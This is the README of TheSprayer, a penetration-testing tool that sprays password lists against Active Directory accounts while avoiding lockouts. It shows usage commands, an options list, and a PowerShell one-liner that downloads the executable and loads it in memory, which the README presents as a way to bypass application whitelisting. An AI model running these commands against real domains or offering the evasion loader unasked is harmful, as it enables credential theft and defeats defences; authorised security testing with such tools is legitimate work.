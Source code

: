 ﻿# TheSprayer
TheSprayer is a cross-platform tool designed to help penetration testers spray passwords against an Active Directory domain WITHOUT locking out accounts.  

## Quick Start
There's several ways to run it, each way will required you to update the parameters.
The tool requires a domain name, DC IP/Hostname and a Username+Password combo for the domain in order to enumerate users and password policies.

You can grab a release and run it directly:
```
TheSprayer.exe -d windomain.local -s 192.168.38.102 -u Administrator -p Password1 -i Passwords.txt
```

or you can run it via reflection without touching disk: (Also handy for bypassing app whitelisting!)
```
$sprayer=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/coj337/TheSprayer/raw/master/TheSprayer/binaries/Releases/TheSprayer.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [TheSprayer.Program]::Main(@('-d','windomain.local','-s','192.168.32.102','-u','Administrator','-p','Password1'))
TODO: Update the link
```

# Options
```
-d, --Domain          Required. The Active Directory domain (e.g. windomain.local)
-s, --Server          Required. The IP or hostname of a domain controller
-u, --Username        Required. Username for domain user to enumerate policies
-p, --Password        Required. Password for domain user to enumerate policies
-i, --PasswordFile    Required. A file containing a line delimited list of passwords to try
-o, --OutFile         File to output found credentials
--help                Display help screen
--version             Display version information
```
